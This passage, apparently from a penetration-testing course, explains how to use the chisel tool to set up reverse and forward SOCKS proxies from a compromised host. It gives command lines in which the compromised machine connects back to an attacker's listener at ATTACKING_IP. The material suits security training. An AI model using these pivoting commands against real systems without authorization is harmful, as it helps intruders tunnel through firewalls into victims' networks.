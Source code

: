 e.g:

![](RackMultipart20210412-4-pcx9xb_html_f1fa08451ad0971a.png)

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.

_ **Reverse SOCKS Proxy:** _

Let&#39;s start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:

./chisel server -p LISTEN\_PORT --reverse &amp;

This sets up a listener on your chosen LISTEN\_PORT.

On the compromised host, we would use the following command:

./chisel client ATTACKING\_IP:LISTEN\_PORT R:socks &amp;

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (&amp;) to background the processes.

![](RackMultipart20210412-4-pcx9xb_html_ed2e04e6b5445330.png)

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on 127.0.0.1:1080. As such, we will be using port 1080 when sending data through the proxy.

Note the use of R:socks in this command. &quot;R&quot; is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.

_ **Forward SOCKS Proxy:** _

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it&#39;s still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:

./chisel server -p LISTEN\_PORT --socks5

On our own attacking box we would then use:

./chisel client TARGET\_IP:LISTEN\_PORT PROXY\_PORT:socks

In this command, PROXY\_PORT is the port that will be opened for the proxy.

For example, ./chisel client 172.16.0.10:8080 1337:socks would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.
